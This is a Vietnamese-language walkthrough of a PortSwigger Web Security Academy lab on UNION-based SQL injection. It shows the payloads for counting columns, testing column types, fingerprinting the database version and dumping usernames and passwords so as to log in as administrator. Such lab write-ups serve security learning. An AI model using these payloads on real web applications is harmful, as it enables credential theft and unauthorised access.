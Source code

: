![[Pasted image 20220617143839.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617143839.png)

------------------------

<h1>MÔ TẢ</h1>

Lab này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng UNION để tấn công truy xuất dữ liệu từ các bảng khác. 

Cơ sở dữ liệu chứa một bảng khác được gọi là ``user``, với các cột được gọi là ``username`` và ``password``.

Để giải quyết lab, cần thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả usernames và passwords, đồng thời sử dụng thông tin để đăng nhập với tư cách ``administrartor``.

<h1>HƯỚNG DẪN</h1>

Bước 1: Xác định số cột
Bước 2: Xác định kiểu dữ liệu của từng cột
Bước 3: Thực hiện tấn công

<h1>GIẢI QUYẾT</h1>

**(1) Xác định số cột:**

> ' order by 1-- -> dữ liệu có sự thay đổi thứ tự nhưng không hiển thị cột được sắp xếp -> ẩn
> ' order by 2-- -> dữ liệu có sự thay đổi thứ tự và được hiển thị 
> ' order by 3-- -> 500

-> Số cột là 2

**(2) Xác định kiểu dữ liệu của từng cột**

> ' UNION SELECT 'a', NULL--

![[Pasted image 20220617145237.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617145237.png)

> ' UNION SELECT NULL, 'a'-- 

![[Pasted image 20220617145621.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617145621.png)

**(3) Thực hiện tấn công**

> ' UNION select NULL, username from users--

![[Pasted image 20220617145824.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617145824.png)

![[Pasted image 20220617145846.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617145846.png)

> ' UNION select NULL, password from users--

![[Pasted image 20220617150235.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617150235.png)

Chúng ta có thể dừng lại việc truy vấn ở đây và thực hiện thử username và password để đăng nhập vào account administrator.

Hoặc có thể sử dụng truy vấn để hiển thị data của hai cột. Để thực hiện được, cần xác định Hệ quản trị cơ sở dữ liệu đang sử dụng để đưa ra được syntax chính xác:

Xác định version: ' UNION select NULL, version()-- (Thử các payload xác định version, tham khảo SQL Injection Cheat sheet: [SQL injection cheat sheet | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet))

![[Pasted image 20220617150629.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617150629.png)

> ' UNION select NULL, username || '*' || password from users--

![[Pasted image 20220617151025.png]]

Đăng nhập thành công!

![[Pasted image 20220617151220.png]]